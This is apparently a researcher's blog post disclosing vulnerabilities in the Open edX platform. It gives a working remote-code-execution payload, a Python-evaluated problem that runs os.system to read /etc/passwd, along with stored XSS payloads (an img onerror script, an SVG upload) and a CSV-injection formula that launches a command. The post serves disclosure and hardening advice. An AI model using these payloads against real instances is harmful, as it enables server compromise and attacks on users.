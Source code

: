 ```yaml
---
layout: post
title: How I found a Remote Code Execution in OpenEDX
---
```


**How I found a Remote Code Execution in OpenEDX**

![alt text](https://media-exp1.licdn.com/dms/image/C4D0BAQEImBWi8mCV9w/company-logo_200_200/0?e=1597881600&v=beta&t=3TJtPgE49E8s9Ox3X3h15mgb4Ls8vjX9_VL5DX9HkqY "Logo Title Text 1")

OpenEDX platform is really cool Learning Management System, which is also Open source (this time I was testing the Ironwood release 2.5). You can check it out here: <https://open.edx.org/the-platform/> When I was using it, I decided to check for their security. So I followed my normal approach: first mapping the app, writing down which functionalities it had, blackbox testing, and then whitebox.

As you can see here: <https://github.com/edx/edx-platform> the whole platform is written in Python (in which I don’t have many experience reviewing code). So I decided to go completely blackbox this time. As I really needed to know all the functionalities in depth, I went to the official documentation:

**https://edx.readthedocs.io/projects/open-edx-building-and-running-a-course/en/latest/index.html**

![alt text](https://pic.accessify.com/thumbnails/777x423/d/docs.edx.org.png "test")

So after some time digging in the docs I found this:
![ssdsd](https://i.imgur.com/HUdrMOi.png)

So it turns out that if you create an account in the OpenEDX platform instance and go to the Studio, create a Course, Create a Unit in the course and add a Problem. And if you choose Custom Python-Evaluated problem and use a payload such as:
~~~~
<problem>

<script type="python">
def test_add(expect,ans):
    os.system("cat /etc/passwd > /tmp/test_rce")
    
</script>

<p>Problem text</p>
<customresponse cfn="test_add" expect="20">
        <textline size="10" correct_answer="11" label="Integer #1"/><br/>
        <textline size="10" correct_answer="9" label="Integer #2"/>
</customresponse>

    <solution>
        <div class="detailed-solution">
          <p>Solution or Explanation Heading</p>
          <p>Solution or explanation text</p>
        </div>
    </solution>
</problem>
~~~~

And click the Submit button, you can execute code in the machine.


![alt text](https://s6.gifyu.com/images/openedx-rce.md.gif "whatever")

So when I discovered this, I contacted EDX’s security team and they told me that there is a mitigation for this kind of issues, but it is not enabled by default:

**https://github.com/edx/codejail**

Apart from this vulnerability I also found a stored XSS. In EDX STUDIO&gt;CONTENT&gt; FILE UPLOADS&gt; Upload an SVG XSS file. And also 2 more XSS:

1) EDX STUDIO&gt;COURSENAME&gt;CONTENT&gt; UPDATES &gt; Press the edit button and replace the default thing with &lt;img src=x onerror=alert(0)&gt;

2) Finally in EDX STUDIO&gt;COURSENAME&gt;SETTINGS&gt;

Finally I found a CSV injection as well:

Course &gt;Instructor&gt;Cohorts&gt;Add cohort with the payload (ex: =cmd|' /C notepad'!'A1')&gt;Add your user to the cohort
Course&gt;Data Downloads&gt;Reports&gt;Download profile info as CSV&gt;The file is generated below, open in Excel 2016, Data&gt;Import data from file&gt;Choose CSV&gt;Using comma as delimiter.

So, that was all for today. Please make sure you enable CodeJail while using OpenEDX platform. Thanks for reading the post ;)
